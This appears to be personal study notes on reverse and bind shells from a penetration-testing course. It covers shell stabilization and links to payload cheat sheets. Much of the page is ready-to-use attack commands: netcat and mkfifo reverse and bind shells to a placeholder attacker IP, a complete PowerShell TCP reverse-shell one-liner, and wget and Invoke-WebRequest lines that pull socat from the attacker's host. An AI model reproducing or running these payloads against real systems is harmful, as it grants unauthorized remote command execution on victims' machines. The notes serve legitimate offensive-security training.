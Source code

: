 - Netcat
- socat
- msfvenom


- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Pentest Monkey [Reverse Sheel Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


### Netcat shell stabilization
- Technique 1: Python (Linux only)
1. python3 -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm -- this will give us access to commands such as clear
3. background the shell (ctrl + z)
  - stty raw -echo; fg

        - if the shell dies - no iput will be visible on your own, since echo is disabled - ***reset*** - and press enter

- Technique 2: rlwrap (not installed on kali by default)
1. sudo apt install rlwrap
  - rlwrap nc -lvnp <p>
  - stty raw -echo: fg

- Technique 3: Socat (linux targets only)
1. sudo python3 -m http.server 80
2. wget <local-ip>/socat -O /tmp/socat
3. Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe

------
With any of the shell use the below to adjust the tty size

- stty - a
- stty rows <number>
- stty cols <number>

### Common Shell Payloads

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the **nc.exe** Windows version included with Kali at **/usr/share/windows-resources/binaries**, and the version used in Kali itself: **netcat-traditional**) there is a **-e** option which allows you to execute a process on connection. For example, as a listener:

- nc -lvnp <PORT> -e /bin/bash

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with **nc <LOCAL-IP> <PORT> -e /bin/bash** would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

- mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

A very similar command can be used to send a netcat reverse shell:

- mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

- powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"